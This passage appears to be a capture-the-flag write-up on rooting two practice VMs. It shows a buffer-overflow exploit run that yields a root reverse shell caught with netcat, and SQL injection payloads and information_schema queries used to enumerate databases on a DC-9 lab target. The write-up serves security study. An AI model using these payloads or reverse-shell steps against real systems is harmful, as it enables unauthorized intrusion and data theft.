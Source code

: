 7. Root Shell: Since the exploit work, using `msfvenom` for making reverse shell for linux and update the python code, run that exploit against the target:

```
python2 ./bo1.py
[*] Buffer Overflow Attack - for Dawn
[*] Setup the server address and port number
[*] Creating the buffer payload
[*] Sending evil buffer...
<socket._socketobject object at 0x7faf832e51a0>
[*] Payload sent!
```
After that exploit have run we can see that on our other terminal we have reverse shell as root to that target machine, which mean we finish that dawn2:
```
nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.45.247] from (UNKNOWN) [192.168.152.12] 51792
id
uid=0(root) gid=0(root) groups=0(root)
```

### DC-9

1. Enumeration: run port scan with `rustscan` and found only port 80 are open (also after we run `webenum` for web enumeration and run `rustscan` agains, we found also port 22). also run `nmap` against them and found that openssh are on 7.9p1 so it is not vulnerable, on the web found title example.com staff details welcome, so go for web enumeration.

2. Web Enumeration: run `webenum` against port 80 and found several web page that are based on php, run manual enumeration against each on firefox and using burp, found that on page search.php we can run search for users, so run "' or '1'='1" give us the all list, which indicate that this php web run with that search page SQL queries, since the injection work we going to enumerate it more.

3. SQL Assessment: run burp against that web and build bash code for run SQL queries against that target, I have cam up with the following:`post_sqli.sh`, which ask for URL and parameter for POST query, that post contain the SQL query as hex value by using my `ascii2hex` python code, since I was able to using `' or '1'='1` as query, I have tried to update the code in such way that it will get SQL injection wordlist and run it against the target as loop with proxychains4 set:
```
proxychains4 ./post_sqli_wordlist.sh http://192.168.152.209/search.php search ./sqlinjection.txt
```
then on burpsuite check what pages have longer value then the regular results, then found one page that his length was longer: 1315, so check that one hand using `hex2ascii` to convert the hex value back to ascii, found the following query work:
`'UNION ALL SELECT 1,2,3,4,5,6 --`
In that way we using 6 field which replay with several values (on our case 1,2,3,4,5 and 6), the values that we can see are 1,2 3,4,5,6 so we can use their position for the injection in such way that we can load relevant data back to the web such as users and passwords
**Please note**, this is a better idea to run manual assessment, because that SQLi loop may be not ideal for finding the injection point for the most short and faster time.

4. SQL Injection: After we know what is the right query we can use for load data back we can start our SQLi that include several steps.
**step 1:** get the databases name, this is important for us to know the used database and the other databases name as we move forwared:
`select schema_name from iuformation_schema.schemata limit 2,1`
In my case I have found three databases: `Staff`, `information_schema`,`users`.
**Step 2:** get the table names from information schema we need to run the follow SQL query, `SELECT table_name FROM information_schema.tables`, on our case since each field should get only one value we user `limit 1,1` for limit it to the first field from the schema, so the query should look like as follow:
`SELECT table_name FROM information_schema.tables limit 1,1;`
since we need to change it every time for limit 2,1 and limit 3,1 and so on, I have to use loop technique, base and found that limit 76,1 (and 77,78) bring the following tables, `StaffDetails`, `Users`, `UserDetails`.